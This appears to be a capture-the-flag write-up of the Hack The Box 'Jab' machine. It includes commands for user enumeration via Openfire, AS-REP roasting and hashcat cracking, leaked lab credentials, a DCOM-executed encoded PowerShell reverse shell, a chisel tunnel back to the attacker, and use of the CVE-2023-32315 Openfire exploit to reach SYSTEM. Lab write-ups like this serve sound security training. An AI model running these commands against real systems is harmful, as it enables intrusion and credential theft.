 ```yaml
---
date: 2025-03-08
categories: [CTF, HTB]
title: "HTB - Jab"
tags: ['hashcat', 'impacket', 'kerberos', 'nmap', 'powershell', 'privilege escalation', 'python', 'rce', 'smb']

description: "Jab - A walkthrough of the challenge with enumeration, exploitation and privilege escalation steps."
---
```


---
---

# HTB - Jab

```bash
sudo nmap -sUV -T4 -F --version-intensity 0 10.129.251.236
```

![image1](../resources/bc9d0f4b3fd644d39d0eb7022e3df136.png)

```bash
nmap 10.129.251.236 -p-
```

![image2](../resources/ed0d146929424972a3d7e695515e424a.png)

```bash
nmap 10.129.251.236 -A
```

![image3](../resources/c1ca68037a894afd80691629c2d11085.png)

- Add jab.htb to /etc/hosts

- From the NMAP scan we can see Openfire is running

- Download the Openfire client - Spark


![image4](../resources/b66d2f59fe75416c9efdf16bc4d6a256.png)

- Tick "Login anonymously"
(You can click on the arrow next to Username to get a randomly generated username - if you want to enter chatrooms or send messages)

- Enter the domain name

- Click on Advanced

![image5](../resources/7204fc3cc02842979b7096baebba312c.png)
- Untick Auto Discovery and enter the IP and port of the server

- Disable Encryption:

![image6](../resources/65f522276c594601bbb48afcd69a2861.png)

- Under Certificates tick Accept self-signed

![image7](../resources/c2b060cb0a9c44e1a7fd9d7cccfc6751.png)

- Click Okay and Login

- There isn't much here apart from two conference rooms that we can't join:

![image8](../resources/981a7a0f84b34a7ea13ccbb51e07cb95.png)

- Let's try and enumerate for users - Using the wilcard **\***

![image9](../resources/6e06c97db55e47bf8584d522b7f6a5ff.png)


![image10](../resources/6ac4476769cb40a1a362c5c7520df590.png)

- We get a massive list of Openfire users (on the domain)

- We need to add all these usernames into a list

- The way I found was to screenshot a portion of the Usernames field - paste into Paint
Then use <https://brandfolder.com/workbench/extract-text-from-image> to extract the text and paste into the username list

- ASRepRoasting using the users wordlist we made from the Openfire usernames:

```bash
impacket-GetNPUsers jab.htb/ -users users.txt -no-pass -dc-ip 10.129.251.236

```

![image11](../resources/fc708009ffbb43d09617a115837b099a.png)

- Crack the hash using hashcat:

```bash
hashcat -m 18200 --force -a 0 hash.txt /usr/share/wordlists/rockyou.txt

```

![image12](../resources/e986c444ed9143ccbdfc7ad53b12e92d.png)

- We have credentials:
**jmontgomery : Midnight_121**

- Check the credentials for SMB:

```bash
crackmapexec smb 10.129.251.236 -u "jmontgomery" -p "Midnight_121"

```

![image13](../resources/3f7b988f24334a1c96b9a5ed3acd1484.png)

- Use these credentials to log back into the Openfire Spark client

- Looking at the conference rooms - There's a new conference room that we can join:

![image14](../resources/1c08ead060414f22919ccc2e73f79dc9.png)


![image15](../resources/770e9d55fa504b4d9aac94cbad66f58b.png)

- The penetration testers ran GetUserSPN to get a TGS ticket for a service
- And they found one for svc_openfire

**svc_openfire** : **!@#$%^&*(1qazxsw**
- 
- Looks like no one tested it and the password is still in play:

![image16](../resources/1103fc7caa8c409196f43865a7d0841d.png)

- From the SMB enum we can see that **svc_openfire is part of the DCOM Users group**:

![image17](../resources/d348352371524ecea7d0e25dbda844c4.png)

- Trying to log in through PS, smbexec, psexec, wmiexec or any of those will result in failure - Access Denied


![image18](../resources/da8f51073ada4de588108fb6dd14b181.png)

- But using the DCOM protocol and the svc_openfire credentials:

```bash
impacket-dcomexec -object MMC20 jab.htb/svc_openfire:'!@#$%^&*(1qazxsw'@10.129.156.10 'cmd.exe /c powershell -e <BASE64_rev_shell>' -silentcommand

```

![image19](../resources/9e6acc8ebea4486ab3b037039117f962.png)

- We get a shell:

![image20](../resources/df9fe015304c436ea7de23b4dbde636f.png)


![image21](../resources/1a0528b218f5468b83925e16d2b7cc93.png)

- Upload meterpreter rev.exe and run to upgrade to a meterpreter shell:

![image22](../resources/020173ba66024b6289d9625d46d15e6c.png)

<u>Openfire Admin console runs on port 9090</u>

```bash
netstat -ano

```

![image23](../resources/8f6db7431c6d4de889dbee3f940c5d46.png)
- We see the admin console running locally on port 9090

- Upload chisel to the target
  - On Kali:

```bash
chisel server -p 8888 --reverse
```
- On target:

```bash
.\chisel.exe client <kali_ip>:8888 R:socks

```
- On Kali - Enable foxyproxy

![image24](../resources/fccaeebb8b0d405693794a002e6d545d.png)

- Go to <http://localhost:9090> - Log in with svc_openfire credentials

![image25](../resources/8c1418c4d3db4dc39c82adb91cb24183.png)


![image26](../resources/c6914b42cc8a497190df105e93669667.png)

**<u>CVE-2023-32315</u>**

```bash
git clone <https://github.com/miko550/CVE-2023-32315.git>

```
- **If we didn't have a user, do the following:**

```bash
cd CVE-2023-32315
pip3 install -r requirements.txt
python3 CVE-2023-32315.py -t http://127.0.0.1:9090

```

![image27](../resources/2c2a1f67a3f54c34882a14b21297f682.png)

- But we can use the svc_openfire user with:
**!@#$%^&*(1qazxsw*

- Go to the Plugins page
- Upload the plugin (openfire-management-tool-plugin.jar ) found in the git repo

![image28](../resources/93af9ee681b6489ba11b1de087e1841e.png)


![image29](../resources/35f401a8e6ac4c5a95c0c0ee79efaf84.png)
- Successfully uploaded and the password is 123
- Go to Server -\> Server Settings -\> Management Tool
(If you take too long, you need to reupload the plugin)


![image30](../resources/067d259d512e405f88f00673f73aee35.png)
- Enter the password 123

- Click on File system

![image31](../resources/8b79f7f37b384e1185a4e4c582f0b6f4.png)

- Go to:
C:/Users/Administrator/Desktop


![image32](../resources/77b24b6ade9a40c5a602853d7a379c58.png)

- Click edit on root.txt

- Got the root flag:

![image33](../resources/193ebab5bb0e4fd18cb1ad86683c7806.png)

- We can also execute system commands to get a shell as SYSTEM:

![image34](../resources/e7fef8d434494ea1afccb4c3b4744c88.png)